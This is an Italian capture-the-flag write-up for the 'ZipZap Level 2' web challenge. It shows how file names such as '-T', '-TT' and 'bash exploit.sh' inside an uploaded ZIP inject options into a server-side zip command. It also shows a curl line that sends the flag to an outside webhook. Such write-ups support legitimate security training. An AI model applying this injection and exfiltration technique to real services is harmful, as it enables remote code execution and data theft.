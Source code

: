 # Writeup: WS_1.03 - ZipZap - Level 2

## Overview
- **Categoria:** Web
- **Autore:** bonaff
- **Difficoltà:** 500
- **Stato:** Up (last checked: 17 minutes ago)
- **URL:** [http://zipzap.challs.cyberchallenge.it/](http://zipzap.challs.cyberchallenge.it/)

## Descrizione 📝
Questa challenge è una continuazione del livello 1 di ZipZap, ma con una svolta: la flag non viene più richiamata tramite symlink all'interno di un file ZIP. Invece, bisogna sfruttare la funzionalità di upload e download multiplo dei file ZIP per eseguire un comando in modo indiretto. In sostanza, bisogna invertire il processo e manipolare il comando eseguito durante il download.

## Soluzione 🎯

### 1. Preparazione dei File
L'idea è creare alcuni file con nomi particolari e uno script di exploit che invia la flag a un server esterno (ad es. tramite un webhook).

#### Creazione dei file:
- **File con nome `-T`:**
  ```bash
  touch -- '-T'
  ```
- **File con nome `-TT`:**
  ```bash
  touch -- '-TT'
  ```
- **Comando che esegue `exploit.sh` :**
  ```bash
  touch 'bash exploit.sh'
  ```
- **Script di exploit:** Creare un file chiamato `exploit.sh` (il nome include anche spazi) contenente il comando per eseguire la richiesta al webhook. Ad esempio, in inserire:
  ```bash
  curl "https://webhook.site/your_webhook_id?$(/getflag)"
  ```
  > **Nota:** Sostituisci `your_webhook_id` con il tuo ID personale su [Webhook.site](https://webhook.site).

### 2. Creazione dell'Archivio ZIP
Una volta creati i file, comprimi tutto in un archivio ZIP mantenendo intatti i nomi speciali:
```bash
zip archivio.zip -y -- *
```
L'opzione `-y` preserva i file esattamente com'è, inclusi eventuali caratteri problematici.

### 3. Upload e Comando Inverso
- **Upload:** Carica l'archivio ZIP sul sito.
- **Download e Esecuzione:** Al momento del download, il sistema esegue internamente un comando simile a:
  ```
  zip -T -TT 'bash exploit.sh'
  ```
  In questo modo il comando esegue lo script `exploit.sh`, il quale invia una richiesta contenente la flag al tuo webhook.

### 4. Ricezione della Flag
Monitorando il tuo endpoint su Webhook.site, vedrai comparire una richiesta simile a:
```
GET /?CCIT{N0t_enOugh_Quot3s} HTTP/1.1
```
La flag estratta sarà quindi:

## Flag 🏁
```
CCIT{N0t_enOugh_Quot3s}
```

## Lezioni Apprese 📚
- **Manipolazione degli archivi ZIP:** La gestione degli upload e download di file ZIP può essere sfruttata in modo creativo per eseguire comandi indiretti.
- **Uso di nomi particolari:** L'utilizzo di nomi di file come `-T` e `-TT` può influenzare il comportamento dei comandi eseguiti sul server.
- **Esecuzione indiretta:** Combinando upload, nomi di file strategici e download, è possibile ottenere l'esecuzione di codice anche in presenza di limitazioni dirette.

## Tools Utilizzati 🛠️
- **Terminale Linux:** Per creare file, script e l'archivio ZIP.
- **Webhook.site:** Per ricevere la flag.
- **Editor di Testo:** Per modificare lo script `exploit.sh`.

---

*Writeup by Luca Crippa - Last Updated: 2024*
